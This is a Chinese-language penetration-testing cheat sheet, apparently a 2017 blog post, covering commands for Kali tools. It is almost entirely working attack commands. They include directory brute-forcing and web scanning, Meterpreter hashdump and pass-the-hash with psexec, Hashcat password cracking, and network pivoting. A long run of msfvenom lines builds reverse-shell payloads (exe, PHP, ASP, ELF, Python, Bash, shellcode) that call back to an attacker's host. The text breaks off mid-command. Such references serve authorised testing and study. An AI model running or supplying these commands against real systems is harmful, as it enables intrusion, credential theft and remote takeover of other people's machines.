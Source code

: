 ```yaml
---
author: 星火燎原@vxhly
title: kali 下渗透测试的一些小技巧
categories: [pentest]
tags: [Pentest, Security, Liunx]
date: 2017-05-20 13:23:12
---
```


::: tip 前言
总结在渗透测试上的一些小技巧, 基本上都是 kali 下的一些常用的工具使用集合
:::
<!-- more -->

## DIRB

### 使用 DIRB 爆破目录

注: [DIRB](http://dirb.sourceforge.net/) 是一个专门用于爆破目录的工具, 在 Kali 中默认已经安装, 类似工具还有国外的 [patator](http://github.com/lanjelot/patator), [dirsearch](http://github.com/maurosoria/dirsearch), [DirBuster](http://www.owasp.org/index.php/Category: OWASP_DirBuster_Project), 国内的御剑等等。

``` bash
dirb http://[IP]:PORT /usr/share/dirb/wordlists/common.txt
```

## Niko

### 使用 Nikto 扫描 Web 服务

``` bash
nikto -C all -h http://[IP]
```

## wpscan

### 使用 wpscan 扫描 WordPress

``` bash
git clone https://github.com/wpscanteam/wpscan.git && cd wpscan
./wpscan –url <http:http://[IP]/> –enumerate p
```

## httprint

### 使用 httprint 进行 HTTP 指纹识别

``` bash
wget //www.net-square.com/_assets/httprint_linux_301.zip && unzip httprint_linux_301.zip
cd httprint_301/linux/
./httprint -h http://[IP] -s signatures.txt
```

## Skipfish

### 使用 Skipfish 进行 Web 应用安全

注: Skipfish 是一款 Web 应用安全侦查工具, Skipfish 会利用递归爬虫和基于字典的探针生成一幅交互式网站地图, 最终生成的地图会在通过安全检查后输出。

``` bash
skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://[IP]
```

## nc

### 使用 nc 进行扫描

``` bash
nc -v -w 1 target -z 1-1000
for i in {101..102};do nc -vv -n -w 1 192.168.56.$i 21-25 -z;done
```

## us

### 使用 Unicornscan 进行信息收集和安全审计

``` bash
us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

# -H 在生成报告阶段解析主机名
# -m 扫描类型 (sf - tcp, U - udp)
# -Iv - 详细
```

## Xprobe2

### 使用 Xprobe2 识别操作系统指纹

``` bash
xprobe2 -v -p tcp:80:open IP
```

## Meterpreter

### 使用 Meterpreter 进行端口转发

``` bash
# //www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址

meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
```

### 使用 Meterpreter 获取哈希值

``` bash
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash http://[IP] cmd

# 或者

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

# 在或者

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
```

#### 使用 Hashcat 破解密码

``` bash
hashcat -m 400 -a 0 hash /root/rockyou.txt
```

### 使用 metasploit 进行穿透

``` bash
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

#或者

# //www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```

## ssh

### SSH 穿透

``` bash
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
```

### SSH 穿透从一个网络到另一个网络

``` bash
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```

## msfvenom

### MSF Payloads

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
```

### MSF 生成在 Linux 下反弹的 Meterpreter Shell

``` bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
```

### MSF 生成反弹 Shell (C Shellcode)

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
```

### MSF 生成反弹 Python Shell

``` bash
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
```

### MSF 生成反弹 ASP Shell

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
```

### MSF 生成反弹 Bash Shell

``` bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
```

### MSF 生成反弹 PHP Shell

``` bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
```

### MSF 生成反弹 Win Shell

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Co
```

